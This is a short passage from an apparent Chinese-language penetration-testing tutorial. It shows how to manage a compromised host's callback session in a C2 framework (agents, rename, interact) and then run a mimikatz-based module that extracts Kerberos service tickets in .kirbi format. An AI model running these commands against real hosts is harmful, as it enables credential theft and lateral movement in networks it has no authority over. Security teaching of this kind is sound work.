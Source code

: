 当目标运行 exe 上线后，使用`agents`命令可以查看所有会话

[![](assets/1708919803-508238e4f9613b50f10cb8e340cd031b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142221-1294a10a-ce26-1.png)

使用以下命令可以修改会话`rename 39ASLBHN stager1`，使用以下命令进入该会话`interact stager1`便可对主机进行操作

#### extract\_tickets 模块

执行下面的模块，他将提取`.kirbi`格式的文件作为`TGS`票据

```plain
usemodule powershell_credentials_mimikatz_extract_tickets
execute
```

[![](assets/1708919803-a978f960e7a21d6da3c76a814d0431e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142230-17e9c676-ce26-1.png)
